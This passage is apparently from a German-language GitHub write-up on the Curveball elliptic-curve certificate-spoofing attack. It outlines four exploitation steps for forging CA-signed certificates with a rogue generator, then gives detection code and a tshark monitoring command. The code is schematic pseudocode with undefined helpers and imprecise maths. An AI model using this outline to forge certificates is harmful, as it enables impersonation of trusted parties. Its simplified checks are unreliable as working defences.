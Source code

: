 
## 🎮 Praktische Exploitation

### Schritt-für-Schritt Angriff

#### 1. **CA-Zertifikat analysieren**
```bash
openssl x509 -in ca_cert.pem -text -noout
# Extrahiere Public Key Q der echten CA
```

#### 2. **Rogue Generator berechnen**
```python
# gen-key.py Implementation
Q = extract_public_key_from_ca()
chosen_private_key = 2  # Einfacher Wert
G_rogue = Q / chosen_private_key  # Modular inverse
```

#### 3. **Bösartiges Zertifikat erstellen**
```bash
# Erstelle Key mit expliziten (manipulierten) Parametern
openssl req -key rogue_key.pem -new -x509 -out malicious_cert.pem
```

#### 4. **Signatur erstellen**
```python
# Alles was mit dem rogue private key signiert wird,
# erscheint als von der echten CA signiert!
signature = sign_with_rogue_key(document)
```

---

## 🛡️ Erkennung und Schutz

### Wie erkennt man Curveball-Angriffe?

#### 1. **Zertifikat-Analyse**
```python
def check_for_curveball(cert):
    # Prüfe auf explicit curve parameters
    if cert.public_key().curve_name != "standard":
        return "SUSPICIOUS: Non-standard curve parameters"
    
    # Prüfe Generator-Punkt
    if cert.generator != STANDARD_GENERATORS[cert.curve]:
        return "ATTACK: Rogue generator detected!"
```

#### 2. **Netzwerk-Monitoring**
```bash
# Suche nach TLS-Verbindungen mit ungewöhnlichen Kurven
tshark -f "ssl" -T fields -e ssl.handshake.extensions_elliptic_curves
```
